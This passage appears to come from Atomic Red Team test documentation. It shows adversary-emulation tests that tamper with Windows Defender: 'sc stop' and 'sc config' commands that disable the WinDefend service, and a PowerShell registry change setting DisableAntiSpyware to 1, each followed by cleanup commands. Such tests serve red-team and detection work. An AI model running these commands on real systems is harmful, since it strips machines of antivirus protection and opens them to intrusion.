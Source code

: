 **Supported Platforms:** Windows


**auto_generated_guid:** aa875ed4-8935-47e2-b2c5-6ec00ab220d2






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
sc stop WinDefend
sc config WinDefend start=disabled
sc query WinDefend
```

#### Cleanup Commands:
```cmd
sc start WinDefend >nul 2>&1
sc config WinDefend start=enabled >nul 2>&1
```





<br/>
<br/>

## Atomic Test #18 - Tamper with Windows Defender Registry
Disable Windows Defender from starting after a reboot. Upen execution, if the computer is rebooted the entire Virus and Threat protection window in Settings will be
grayed out and have no info.

**Supported Platforms:** Windows


**auto_generated_guid:** 1b3e0146-a1e5-4c5c-89fb-1bb2ffe8fc45






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 1
```

#### Cleanup Commands:
```powershell
Set-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender" -Name DisableAntiSpyware -Value 0
```
